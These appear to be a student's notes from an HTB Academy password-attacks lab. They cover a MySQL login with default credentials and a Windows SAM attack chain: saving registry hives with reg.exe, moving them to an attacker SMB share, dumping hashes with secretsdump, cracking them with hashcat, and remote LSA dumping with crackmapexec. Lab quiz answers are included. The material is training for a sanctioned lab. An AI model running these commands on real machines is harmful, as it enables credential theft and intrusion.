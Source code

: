 `mysql -u -p`

* \-u and -p can be found in given cheetsheat
  * [https://raw.githubusercontent.com/ihebski/DefaultCreds-cheat-sheet/main/DefaultCreds-Cheat-Sheet.csv](https://raw.githubusercontent.com/ihebski/DefaultCreds-cheat-sheet/main/DefaultCreds-Cheat-Sheet.csv)
  *

      <figure><img src=".gitbook/assets/image (172).png" alt=""><figcaption></figcaption></figure>

`mysql -u superdba -p admin`

* works...

Answer: <mark style="color:green;">**superdba:admin**</mark>

## Win Local PW Attacks

### Attacking SAM

* Copying SAM Registry Hives (hklm/sam, hklm/system, khlm/security)
* Creating backups of Hives using reg.exe
  * `reg.exe save hklm/sam C:/sam.save`
* Creating a Share w smbserver.py
  * `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/`
* Moving Hive copies to Share
  * `move sam.save \10.10.15.16\CompData`
* Dumping Hashes w Impackets secretsdump.py
  * `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
* Cracking hashes w Hashcat
  * `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`
* Remote Dumping & LSA Secrets
  * `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`
  * `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`

#### Questions

**Where is the SAM database located in the Windows registry? (Format: \*\*\*\*\*\*\*)**

<mark style="color:green;">**hklm\sam**</mark>

**Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.**
